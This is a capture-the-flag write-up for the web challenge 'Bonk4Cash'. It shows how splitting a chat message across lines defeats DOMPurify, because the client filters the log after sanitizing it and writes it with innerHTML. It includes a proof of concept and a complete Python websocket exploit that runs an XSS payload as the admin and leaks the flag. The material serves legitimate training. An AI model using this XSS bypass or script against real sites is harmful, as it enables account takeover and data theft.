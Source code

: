 ```yaml
---
title: Bonk4Cash
solves: 15
points: 493
created: 2025-04-19T05:58
updated: 2025-04-20T19:59
---
```


The client JS trusts the API so much it uses `innerHTML` to display the messages.

But the API is indeed secure, DOMPurify is used.

No known vulnerabilities in DOMPurify ...wait, the client is modifying the content after sanitization.

```js
if(resp.ok){
    const log = await resp.text();
    console.log(log);
    const filtered = log.split("\n").filter(msg => msg.split("]")[0].substring(1) === person).join("\n");
    chatlogbox.innerHTML = filtered;
}else{
    chatlogbox.innerHTML = "<br />Failed to load messages"
}
  ```

Let's try to exploit this, we trick `DOMPurify` into thinking that a malicious `img` tag is actually part of a innocent `h1`'s attributes, and it really is, but after being line-filtered by the client, that wrapper `h1` disappears and our `img` payload appears.

```js
const createDOMPurify = require('dompurify');
const { JSDOM } = require('jsdom');

const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window);

const chatMessages = [
    '[name] test<h1 lang="',
    '[name2] test<img src=1 onerror=\'/*',
    '[name2] */;alert(1)\'>">hello'
];
const person = 'name2';
const log = DOMPurify.sanitize(chatMessages.join("<br>\n"));
console.log("Sanitized log:");
console.log(log);
console.log("\n")

console.log("Filtered log:");
const filtered = log.split("\n").filter(msg => msg.split("]")[0].substring(1) === person).join("\n");
console.log(filtered);
```

```
Sanitized log:
[name] test<h1 lang="<br>
[name2] test<img src=1 onerror='/*<br>
[name2] */;alert(1)'>">hello</h1>


Filtered log:
[name2] test<img src=1 onerror='/*<br>
[name2] */;alert(1)'>">hello</h1>
```

And it worked!

## solve

With a working XSS on our hands the rest is super simple.

Just XSS the admin, get the flag by making the admin report the admin, then send it in chat via the admin account like a chad.

```python
import base64
import random
import time
import requests
import asyncio
import websockets

# origin = "localhost:8000"
origin = "44.197.178.240"
target = f"http://{origin}"

name1 = "kumo"+str(random.randint(0, 1000000))
name2 = "kumo"+str(random.randint(0, 1000000))
requests.post(f"{target}/clearchat")


def reg(username):
    s = requests.Session()
    r = s.post(f"{target}/register", data={"username": username})
    r.raise_for_status()
    return s


def chatkey(s):
    r = s.post(f"{target}/chatkey")
    r.raise_for_status()
    return r.text.strip()


def report(s, name):
    r = s.post(f"{target}/report/{name}")
    r.raise_for_status()
    return r.url


def spam_messages(chatkey1, chatkey2, payload):
    payload = base64.b64encode(payload.encode()).decode()

    async def chat_client():
        uri = f"ws://{origin}/chat"
        async with websockets.connect(uri) as ws2:
            async with websockets.connect(uri) as ws1:
                await ws1.send(chatkey1)
                await ws2.send(chatkey2)
                await ws2.send(f'*/;eval(atob(`{payload}`));\'>">p2')
                await ws2.send('p1<img src=1 onerror=\'/*')
                await asyncio.sleep(0.1)
                await ws1.send('payload starts<h1 lang="')
    asyncio.run(chat_client())


print(f"[*] Registering {name1} and {name2}")
s1 = reg(name1)
s2 = reg(name2)
chatkey1 = chatkey(s1)
chatkey2 = chatkey(s2)
chatkey3 = chatkey(s2)
print(f"[*] Sending payload to chat")
spam_messages(chatkey1, chatkey2, """
fetch("/chatkey",{method:"POST"}).then(r=>r.text()).then(chatkey=>{
    fetch("/report/admin",{method:"POST"}).then(r=>{
        console.log("yay", r.url);
        let ws = new WebSocket("/chat")
        ws.onopen = (event) => {
            ws.send(chatkey);
        }
        ws.onmessage = (event) => {
            console.log(`received ${event.data}`)
            if(event.data === "successfully authorized"){
                ws.send(r.url);
            }
        }
    }).catch(e=>console.log(e));
});
""")
print("[*] Checking payload")
print(requests.get(f"{target}/transcript").text)
print(f"[*] Reporting user {name2} to activate the payload")
print(report(s1, name2))
print("[*] Checking flag")
time.sleep(5)
print(requests.get(f"{target}/transcript").text)
```

```
[admin] http://localhost/?result=UMASS%7BAdm1n_g0T_B0nk3d_EfAv4k7r3dJgTcbjmp%7D<br>
```

```flag
UMASS{Adm1n_g0T_B0nk3d_EfAv4k7r3dJgTcbjmp}
```
